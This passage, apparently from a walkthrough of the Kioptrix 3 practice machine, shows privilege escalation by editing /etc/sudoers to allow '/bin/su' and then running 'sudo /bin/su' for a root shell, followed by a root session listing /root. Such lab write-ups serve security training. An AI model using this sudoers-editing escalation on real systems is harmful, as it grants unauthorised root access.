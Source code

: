 To open a file, we can use the key `Alt + F`.

![etc_sudoers](./.images/etc_sudoers.gif)

Now, all that needs to be done is remove the `!` before `/bin/su` and save the file using `Alt + F` and then selecting `Save`.

As we have modified the `/etc/sudoers` file, we can now directly use the command `sudo /bin/su` and get the `root` shell.

```bash
root@Kioptrix3:/home/dreg# whoami
root
root@Kioptrix3:/home/dreg# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:/home/dreg# cd /root/
root@Kioptrix3:~# ls -la
total 52
drwx------  5 root root  4096 2011-04-17 08:59 .
drwxr-xr-x 21 root root  4096 2011-04-11 16:54 ..
-rw-------  1 root root    56 2021-05-01 00:25 .bash_history
-rw-r--r--  1 root root  2227 2007-10-20 07:51 .bashrc
-rw-r--r--  1 root root  1327 2011-04-16 08:13 Congrats.txt
drwxr-xr-x 12 root root 12288 2011-04-16 07:26 ht-2.0.18
-rw-------  1 root root   963 2011-04-12 19:33 .mysql_history
-rw-------  1 root root   228 2011-04-18 11:09 .nano_history
-rw-r--r--  1 root root   141 2007-10-20 07:51 .profile
drwx------  2 root root  4096 2011-04-13 10:06 .ssh
drwxr-xr-x  3 root root  4096 2011-04-15 23:30 .subversion
root@Kioptrix3:~# cat Congrats.txt 
```
